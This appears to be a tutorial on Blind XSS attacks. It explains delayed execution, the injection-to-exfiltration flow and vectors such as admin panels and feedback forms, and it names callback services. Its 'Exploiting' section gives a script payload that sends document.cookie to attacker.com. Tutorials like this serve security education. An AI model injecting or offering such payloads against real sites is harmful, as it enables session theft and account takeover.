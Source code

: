 

# **Blind XSS (In-Depth)**

## **Introduction to Blind XSS**
Blind XSS is a type of Cross-Site Scripting (XSS) attack where the attacker's payload is stored and executed in a different context than where it was injected, often in an admin panel or backend system. Unlike traditional stored XSS, the attacker does not immediately see the result of the payload execution.

### **Key Characteristics:**
- **Delayed Execution**: The payload triggers at a later time when accessed by another user (e.g., an admin).
- **No Immediate Feedback**: The attacker does not see the response directly.
- **Harder to Detect**: Since the payload executes in a different context, traditional scanners may miss it.

---

## **How Blind XSS Works**
1. **Payload Injection**: Attacker submits malicious input (e.g., via contact forms, comments, or user profiles).
2. **Storage on Server**: The input is stored in a database or log file.
3. **Triggered Execution**: When an admin or another privileged user views the stored data, the payload executes.
4. **Exfiltration of Data**: The payload sends sensitive information (cookies, session tokens) back to the attacker.

---

## **Common Attack Vectors**
1. **Admin Dashboards**  
   - Admin panels often review user-submitted data (e.g., support tickets, logs).
2. **Log Files**  
   - Web servers store logs that may include malicious input.
3. **User Profiles**  
   - Some systems allow HTML/JS in profile fields that admins review.
4. **Feedback Forms**  
   - Attackers submit malicious scripts that execute when reviewed.

---

## **Exploiting Blind XSS**
### **(1) Crafting Payloads**
Since feedback is delayed, attackers use callback mechanisms:
```html
<script>
  fetch('https://attacker.com/steal?data=' + document.cookie);
</script>
```
Or use services like:
- **[XSS Hunter](https://xsshunter.com/)** – Automates blind XSS detection.
- **[Interact.sh](https://interact.sh/)** – Checks for out-of-band interactions.
